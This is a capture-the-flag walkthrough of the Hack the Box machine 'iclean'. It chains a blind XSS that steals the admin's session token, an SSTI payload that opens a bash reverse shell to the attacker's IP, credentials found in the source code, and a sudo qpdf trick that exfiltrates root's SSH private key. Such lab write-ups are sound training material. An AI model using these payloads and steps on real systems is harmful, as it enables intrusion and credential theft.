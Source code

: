 ```yaml
---
id: index
aliases: []
tags:
  - CTF
  - Hack the Box
authors:
  - paixao
date: "2024-08-20"
draft: false
showAuthor: false
showAuthorsBadges: false
summary: Solution for the Hack the Box machine perfection
title: Hack the Box - iclean
---
```


## Reconnaissance

Initially, we performed the mapping of open ports on our target, as well as their services and versions.

```config
PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http    Apache httpd 2.4.52 ((Ubuntu))
```

When trying to access the WEB server, we are redirected to the domain capiclean.htb. Therefore, we add the following line to our /etc/hosts file so that this domain can be resolved.

```python
 echo "10.10.11.12 capiclean.htb" | sudo tee -a /etc/hosts
```

After accessing the application and performing a search for vulnerabilities, we encountered the endpoint "<http://capiclean.htb/quote>" which brought a suspicious message:

```text
Your quote request was sent our management team. They will reach out soon via e-mail. Thanks for the interest you have shown in our services
```

Upon reading this message, we automatically checked if any parameter of the request sent to the admin was vulnerable to XSS, because if that were the case, we could exfiltrate their token and use the app with maximum privilege.

![Blind XSS ](blind-xss.png)

We used the above payload to send the admin's session token to a web server that we set up with Python using the command

```python
python3 -m http.server
```

As a result of this process, we obtained the admin's session token
![Receiving the token](get-token.png)

## Initial Access

With the token in hand, we enumerated a few more endpoints of the application

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3- medium.txt:FFUZ -u http://capiclean.htb/FFUZ
```

And we found the 'dashboard' endpoint which has restricted access. Thus, we added the admin cookie in the browser and managed to access the endpoint.

Following the application's 'happy path' we generated an invoice, and later tried to access it through the QR code generation function. Analyzing the request parameters, we identified an SSTI in the 'qr_link' parameter.

![SSTI](SSTI.png)

Once we identified this vulnerability, we started testing with various payloads to get a reverse shell. The following payload was the one that allowed us to access the system.

```python
 {{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("bash -c '/bin/bash -i >& /dev/tcp/Your-IP/4444 0>&1'")|attr("read")()}}
```

## Privilege Escalation

Once we managed to execute code on the target machine, we performed a scan of its infrastructure. We started with the application's source code. In it, we found some database credentials:

```python
db_config = {
'host': '127.0.0.1',
'user': 'iclean',
'password': 'pxCsmnGLckUb',
'database': 'capiclean'
}
```

When checking the open ports on the application, it was noticed that port 3306 was open, indicating that there is a MySQL database running. With this information, we used the credentials previously found in the code to gain access to the database data.

```bash
mysql --database capiclean -e 'show databases;' -u iclean -p
```

After that, we tried to crack both hashes and succeeded in cracking only the hash of the user 'consuela' which resulted in the password 'simple and clean'. With the password and the user, we attempted logins via SSH.

```bash
ssh consuela@$rhost
```

Which was successful. Now with the SSH shell, we checked if any command was enabled to be executed with sudo privileges.

```bash
sudo -l
```

After understanding what the application is about, we made the following assumption: if the user consuela has SSH, the root user must also have SSH. With their private key stored in the file /root/.ssh/id_rsa, we could create a PDF with the content of the root user's SSH key and direct this PDF to an accessible directory.

```bash
 sudo /usr/bin/qpdf --qdf --add-attachment /root/.ssh/id_rsa -- --empty ./id_rsa
```

After the assumption proved to be true, we retrieved the SSH key by checking the internal content of the PDF, and we logged in as root using the command.

```bash
ssh root@$rhost -i root_ssh_key_file
```

With this, we have access to the root user and can see the final flag.

```bash
cat root.txt
```
